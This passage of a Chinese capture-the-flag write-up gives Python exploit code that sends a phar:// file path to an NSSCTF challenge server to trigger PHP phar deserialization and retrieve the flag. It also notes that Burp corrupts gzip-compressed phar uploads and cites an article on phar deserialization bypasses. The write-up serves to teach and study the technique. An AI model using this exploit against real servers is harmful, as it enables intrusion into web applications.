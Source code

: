 ```
def getFlag():
    burp0_url = "http://1.14.71.254:28403/"
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36", "Origin": "http://1.14.71.254:28403", "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://1.14.71.254:28403/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
    burp0_data = {"file": "phar://./upload/phar.jpg/test.txt", "submit": ''}
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    return re.findall('(NSSCTF\{.*?\})', res.text)[0]
 
if __name__ == '__main__':
    upload(getPhar())
    print(getFlag())
```

运行得到flag。

![]({{site.baseurl}}/images/20230413/20230413185269.png)

ps：注意如果用burp代理抓包上传gzip压缩后的phar可能会有bug，burp会改变gzip数据，导致无法识别phar文件










<br/><br/><br/><br/><br/>
## 参考资料

php(phar)反序列化漏洞及各种绕过姿势 <https://mp.weixin.qq.com/s/6O_Lodz1VW6Ua02YbyYH5w>